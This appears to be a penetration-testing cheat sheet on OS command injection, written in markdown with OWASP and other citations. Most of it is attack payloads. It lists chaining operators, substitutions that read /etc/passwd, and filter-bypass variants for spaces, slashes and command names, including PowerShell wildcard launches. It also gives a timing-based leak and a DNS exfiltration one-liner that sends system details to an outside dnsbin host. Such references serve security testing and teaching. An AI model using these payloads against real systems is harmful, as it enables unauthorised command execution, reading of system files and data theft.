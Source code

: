 ```yaml
---
title: Command Injection
---
```


# Command Injection

Command injection is an attack
in which the attacker
executes arbitrary commands
on the host OS
via a vulnerable application.
Command injection attacks are possible
when an application
passes unsafe user-supplied data
to a system shell.
[^command-injection-owasp]

{{<hint info>}}
Commands are usually executed with the privileges of the vulnerable application.
{{</hint>}}

## Command Chaining

```sh
<input>; ls
<input>& ls
<input>&& ls
<input>| ls
<input>|| ls
```

{{<hint warning>}}
Also try:
- Prepending a flag or parameter.
- Removing spaces (`<input>;ls`).
{{</hint>}}

### Chaining Operators

Windows and Unix supported.

|      | Syntax          | Description                                           |
| ---- | -------------   | -------                                               |
| `%0A`| `cmd1 %0A cmd2` | Newline. Executes both.                               |
| `;`  | `cmd1 ; cmd2`   | Semi-colon operator. Executes both.                   |
| `&`  | `cmd1 & cmd2`   | Runs command in the background. Executes both.        |
| `|`  | `cmd1 | cmd2`   | PIPE operator. Sends `cmd1`'s output as `cmd2` input. |
| `&&` | `cmd1 && cmd2`  | AND operator. Executes `cmd2` if `cmd1` succeds.      |
| `||` | `cmd1 || cmd2`  | OR operator. Executes `cmd2` if `cmd1` fails.         |

## I/O Redirection

```sh
> /var/www/html/output.txt
< /etc/passwd
```

## Command Substitution

Replace a command output with the command itself.[^substitution-gnu]

```sh
<input> `cat /etc/passwd`
```

```sh
<input> $(cat /etc/passwd)
```

## Filter Bypassing

### Space filtering [^spaceless-ifs]

#### Linux

```sh
cat</etc/passwd
# bash
${cat,/etc/passwd}
cat${IFS}/etc/passwd
v=$'cat\x20/etc/passwd'&&$v
IFS=,;`cat<<<cat,/etc/passwd`
```

#### Windows [^spaceless-windows-rce]

```ps
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### Slash (`/`) filtering

```sh
echo ${HOME:0:1} # /
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

```sh
echo . | tr '!-0' '"-1' # /
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

### Command filtering

Quotes.

```sh
w'h'o'am'i
w"h"o"am"i
```

Slash.

```sh
w\ho\am\i
/\b\i\n/////s\h
```

At symbol.

```sh
who$@ami
```

Variable expansion.

```sh
v=/e00tc/pa00sswd
cat ${v//00/}
```

Wildcards.

```ps
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## Time Based Data Exfiltration [^time-based-rce]

```sh
time if [ $(uname -a | cut -c1) == L ]; then sleep 5; fi
```

## DNS Based Data Exfiltration [^dns-bin]

- [pingb.in](//pingb.in)
- [dnsbin.zhack.ca](//dnsbin.zhack.ca)

`dnsbin` Example:

```sh
host $(uname -a).c2cebb6a3678849a2eee.d.zhack.ca
```


[^command-injection-owasp]: “Command Injection | OWASP.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/attacks/Command_Injection.
[^substitution-gnu]: “Command Injection | OWASP.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/attacks/Command_Injection.
[^spaceless-windows-rce]: https://twitter.com/bugbountynights/status/860102244171227136
[^spaceless-ifs]: https://twitter.com/asdizzle_/status/895244943526170628
[^time-based-rce]: Pobereznicenco, Dan. “Exploiting Timed Based RCE – Security Café.” Security Café, 28 Feb. 2017, https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/.
[^dns-bin]: ettic-team. “GitHub - Ettic-Team/Dnsbin: The Request.Bin of DNS Request.” GitHub, https://github.com/ettic-team/dnsbin.
